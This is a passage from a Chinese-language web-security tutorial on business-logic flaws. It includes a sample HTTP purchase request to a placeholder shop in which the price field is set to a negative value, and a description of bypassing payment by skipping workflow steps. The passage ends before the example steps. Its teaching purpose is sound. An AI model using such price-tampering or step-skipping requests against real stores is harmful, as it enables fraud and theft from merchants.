


### Parameter Manipulation
如下，你可修改price的值来达到你买东西的时候付多少钱的目的.

```
POST /store/buy HTTP/1.1
Host: acme.com
Connection: close
Content-Length: 22
Cache-Control: max-age=0
Origin: https://acme.com
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng
,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=3214536754363414df3142gf2341

price= -15 &action=add
```

### Logic Flaws

逻辑缺陷是MFLAC的一种变体，它涉及一个多步骤工作流，攻击者可以`跳过`该工作流的`步骤`以获得优势。
比如原始的步骤如下：

可以绕过付款，那就无须付款如下：


